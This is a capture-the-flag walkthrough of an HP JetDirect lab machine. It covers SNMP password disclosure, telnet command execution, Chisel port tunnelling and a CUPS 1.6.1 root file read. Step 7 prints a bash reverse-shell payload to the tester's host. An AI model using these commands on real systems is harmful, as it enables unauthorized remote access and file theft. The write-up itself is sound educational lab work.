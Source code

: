 1. Run nmap to discover open ports and services from the web server.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/72d9eac3-875f-4d28-a456-57a2e32964c8)

2. From the result, it shows telnet service so I try to telnet the ip address and been asked to input a password.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dc894ff0-033e-4f32-a91d-52ab67f7d696)

3. Let's check from the udp port with nmap.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/746ff511-077e-4cbe-be97-4c25105ca817)

4. I discover that a SNMP port 161 is opened. Next, I googling all the way to find any vulnerability related to snmp and HP JetDirect and found this [link](https://www.exploit-db.com/exploits/22319) where's about HP JetDirect password disclosure. I can execute `snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7896ce2a-bf3b-47e4-a7cc-0922bede6aa0)

5. Seems like an ascii sequence. To decode I can use this [tool](https://www.dcode.fr/ascii-code) and the password is P@ssw0rd@123!!123
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8b3f6da9-ef59-4f60-9505-96e251084c2e)

6. Input the password and I try to input `ls` directly first and it isn't working so I try add exec in front of the input. The flag is found in user.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1dc5128e-7c17-4794-a22a-a63b677e0914)

7. Another vulnerability is I can do reverse shell with this payload `exec bash -c "bash -i >& /dev/tcp/10.10.14.13/777 0>&1"`. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8663694e-0aa4-480e-9e5d-1df1e48d086e)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4483c745-329f-4450-ba1c-8563d9c0502e)

8. Checking one by one directory and not find any interesting thing. Let's check the network stats.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1efa4b48-0667-4cce-943e-0f13bc13e07e)

9. The second one is quite suspicious because it runs locally. I can't check directly because it runs on target machine, not our machine. Don't worry, I can use tool called [Chisel](https://github.com/jpillora/chisel) to give access so I can access the target machine localhost in our terminal. I can run `python3 -m http.server 80` in our machine and `wget <ip address>/<chiselfile>` for give the chisel file to target machine.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b95cd0bb-2d88-47fd-837c-48c2785d6595)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0b89b912-658b-4465-bea6-11ec0a4de0eb)

10. Now I do a small reverse shell with chisel. I can run this payload and here's the response. When I opened, it's a CUPS 1.6.1 web server.
Target Terminal:
`./chisel_1.9.1_linux_amd64 client 10.10.14.13:888 R:631:localhost:631`

Host Terminal:
`./chisel_1.9.1_linux_amd64 server -p 888 --reverse`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c1e501c3-5b8b-4c2b-9cce-7f090c8a30b2)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9a8a6ef1-1790-4cdb-91fa-918d7372cf75)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/606ea037-8368-4529-be17-ffd80ec31662)

11. Open administration page (admin) and I get these features.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1d643aa7-6d53-48c8-a1af-eac38c318f34)

12. Googling to find any vulnerability related to CUPS 1.6.1 and found this [article](https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/). It describes that the cupsd daemon change any input inside the error log as a plaintext.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6a7fd4fc-3926-4f07-96c9-466791558123)

13. Because it's related to error log, next I open the `view error log` feature in administration page and it looks like this.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7120d6bf-7363-4dbd-9a3a-d3bec38af0f2)

14. Now I are searching the payload that are related to CUPS 1.6.1 and error log. Then I find this [payload](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/79e12161-9fc5-48a5-9e90-f4d0e78da5ae)

15. Now I just need to run `cupsctl ErrorLog="/root/root.txt"`. This means that the cupsctl give the input to ErrorLog so the cupsd daemon can translate it into plaintext as a bash command. To see the response, I can run `curl 127.0.0.1:631/admin/log/error_log?` and get the root flag!<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fe90d7d5-38a1-4140-8ae7-303880c4e91f)





